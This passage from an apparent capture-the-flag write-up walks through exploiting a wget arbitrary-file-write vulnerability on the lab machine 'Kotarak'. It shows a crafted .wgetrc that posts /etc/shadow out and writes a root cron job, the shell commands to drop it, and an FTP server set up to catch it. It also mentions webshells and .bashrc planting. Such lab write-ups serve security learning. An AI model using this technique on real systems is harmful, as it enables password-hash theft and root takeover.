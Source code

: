 #### POC

There are many ways to exploit this vulnerability. I could drop a `.bashrc` file and wait for someone to start a shell. If I thought perhaps the `wget` was being run from a web directory, I could look at uploading a webshell.

There’s a proof of concept for this CVE on [exploitdb](https://www.exploit-db.com/exploits/40064). It’s strategy is to write a Wget Startup file. Based on the [priority](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Location.html) `wget` looks for these files, as long as there’s nothing in the `/usr/local/etc/wgetrc` and the env variable `WGETRC` isn’t set, it will try to load from `$HOME/.wgetrc`.

This fill will set arguments for `wget` that aren’t passed on the command line. The POC uses two of these with the following `.wgetrc` file:

```

post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell

```

This sets two [options](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Commands.html):
- `post_file`:

  > Use POST as the method for all HTTP requests and send the contents of file in the request body. The same as ‘–post-file=file’.
- `output_document`:

  > Set the output filename—the same as ‘-O file’.

This POC will exploit over the course of two requests (so it’s targeted against a process where `wget` is running on `cron`, which seems perfect for Kotarak).

The first request is what is exploited by this exploit, to write the `.wgetrc` file into the running home directory. The next time it goes to make the same request, it will POST the shadow file, and then save the result into the `/etc/cron.d` directory.

#### Run It

I’ll need multiple shells on the box, either by trigger the WAR file a few times. I’ll work out of a directory in `/tmp`. In one shell, I’ll drop the `.wgetrc` file:

```

atanas@kotarak-dmz:/tmp/.0xdf$ cat <<_EOF_>.wgetrc                              
> post_file = /etc/shadow
> output_document = /etc/cron.d/wget-root-shell                                 
> _EOF_  

```

And start a Python FTP server:

```

atanas@kotarak-dmz:/tmp/.0xdf$ authbind python -m pyftpdlib -p21 -w
/usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  RuntimeWarning)
[I 2021-05-15 13:32:46] >>> starting FTP server on 0.0.0.0:21, pid=26421 <<<
[I 2021-05-15 13:32:46] concurrency model: async
[I 2021-05-15 13:32:46] masquerade (NAT) address: None
[I 2021-05-15 13:32:46] passive ports: None

```
